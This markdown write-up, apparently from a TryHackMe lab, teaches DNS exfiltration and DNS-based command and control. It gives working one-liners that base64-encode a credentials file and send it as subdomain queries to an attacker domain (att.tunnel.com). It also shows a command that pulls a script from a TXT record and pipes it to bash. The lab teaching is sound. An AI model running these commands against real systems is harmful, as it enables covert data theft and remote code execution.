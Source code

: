 # Exfiltration over DNS

Since ``DNS`` is not a transport protocol, many organisations don't regularly monitor the DNS protocol. The `DNS` protocol 
is allowed in almost all firewalls in any organisational network, making the `DNS` protocol popular with threat actors 
to hide communications.

There are many use case scenarios, but the typical one is when the firewall blocks and filters all traffic. We can 
pass data or `TCP/UDP` packets through a firewall using the `DNS` protocol, but it is important to ensure that the 
`DNS` is allowed and resolving domain names to IP addresses.

* An attacker registers a domain name, for example, [tunnel.com](dns-conf.md) 
* The attacker sets up tunnel.com's NS record points to a server that the attacker controls.
* The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.
* The `DNS` request is sent through the local `DNS` server and is forwarded through the Internet.
* The attacker's authoritative `DNS` (malicious server) receives the `DNS` request.
* Finally, the attacker extracts the password from the domain name.

## DNS Data Exfiltration

* Get the required data that needs to be transferred.
* Encode the file using one of the encoding techniques.
* Send the encoded characters as subdomain/labels.
* Consider the limitations of the `DNS` protocol. Note that we can add as much data as we can to the domain name, but 
we must keep the whole URL under 255 characters, and each subdomain label ca not exceed 63 characters. If we do 
exceed these limits, we have to split the data and send more `DNS` requests.

Connect to the new thm attacker machine using ssh from the jump host:

    thm@jump-box$ ssh thm@attacker.thm.com

Capture DNS requests:
	
    thm@attacker$ sudo tcpdump -i eth0 udp port 53 -v 
    tcpdump: listening on eth0, link-type RAW (Raw IP), snapshot length 262144 bytes

Open a new terminal, ssh jump to victim2 from the jump host:

    thm@jump-box$ ssh thm@victim2.thm.com

Check the content of the `creds.txt` file:

    thm@victim2$ cat task9/credit.txt
    Name: THM-user
    Address: 1234 Internet, THM
    Credit Card: 1234-1234-1234-1234
    Expire: 05/05/2022
    Code: 1337

Encode:

    thm@victim2$ cat task9/credit.txt | base64
    TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAx
    MjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==

Split the content into multiple DNS requests:

    thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/'
    TmFtZTogVEhNLXVzZX.att.tunnel.com
    IKQWRkcmVzczogMTIz.att.tunnel.com
    NCBJbnRlcm5ldCwgVE.att.tunnel.com
    hNCkNyZWRpdCBDYXJk.att.tunnel.com
    OiAxMjM0LTEyMzQtMT.att.tunnel.com
    IzNC0xMjM0CkV4cGly.att.tunnel.com
    ZTogMDUvMDUvMjAyMg.att.tunnel.com
    pDb2RlOiAxMzM3Cg==.att.tunnel.com

* `tr -d "\n"` - remove newlines.
* `fold -w18` - every 18 characters in a group
* `sed -r 's/.*/&.att.tunnel.com/'` - append the name server `att.tunnel.com` to every group

Now split every 18 characters with a dot `.` and add the name server:

    thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
    TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.comthm@victim2:~$ 

From the victim2 machine, send the base64 data as a subdomain name via `dig` taking DNS limitations into account:

    thm@victim2:~$ cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash

Open a new terminal, jump to the attacker machine and check results using `tcpdump`:

    thm@attacker:~$ sudo tcpdump -i eth0 udp port 53 -v
    [sudo] password for thm: 
    tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
    16:06:05.923936 IP (tos 0x0, ttl 64, id 47515, offset 0, flags [none], proto UDP (17), length 104)
        172.20.0.1.43174 > attacker.domain: 19394% [1au] A? _.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (76)
    16:06:05.924355 IP (tos 0x0, ttl 64, id 47516, offset 0, flags [none], proto UDP (17), length 235)
        172.20.0.1.36730 > attacker.domain: 33745% [1au] A? TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com. (207)
    16:06:05.926140 IP (tos 0x0, ttl 64, id 28057, offset 0, flags [DF], proto UDP (17), length 69)
        attacker.57010 > 172.20.0.1.domain: 53575+ PTR? 1.0.20.172.in-addr.arpa. (41)
    16:06:05.926243 IP (tos 0x0, ttl 64, id 47517, offset 0, flags [DF], proto UDP (17), length 123)
        172.20.0.1.domain > attacker.57010: 53575 NXDomain* 0/1/0 (95)

Clean and restore the received data:

    thm@attacker:~$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
    Name: THM-user
    Address: 1234 Internet, THM
    Credit Card: 1234-1234-1234-1234
    Expire: 05/05/2022
    Code: 1337

## C2 communications over DNS

In victim2, create a script.sh in /tmp

    thm@victim2:~$ cd /tmp/
    thm@victim2:/tmp$ nano script.sh

The code for `script.sh`:

    #!/bin/bash 
    ping -c 1 test.thm.com

Encode the script:

    thm@victim2:~$ cat /tmp/script.sh | base64
    IyEvYmluL2Jhc2ggCnBpbmcgLWMgMSB0ZXN0LnRobS5jb20K

Add it as a `TXT` `DNS` record to the tunnel.com domain using the web interface provided: http://MACHINE_IP/

Confirm it was added successfully:

    thm@victim2:~$ dig +short -t TXT script.tunnel.com
    "IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="

Run the script:

    thm@victim2:~$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
    PING test.thm.com (127.0.0.1) 56(84) bytes of data.
    64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.019 ms
    
    --- test.thm.com ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 0.019/0.019/0.019/0.000 ms

Get the flag:

    thm@victim2:~$ dig +short -t TXT flag.tunnel.com | tr -d "\"" | base64 -d | bash
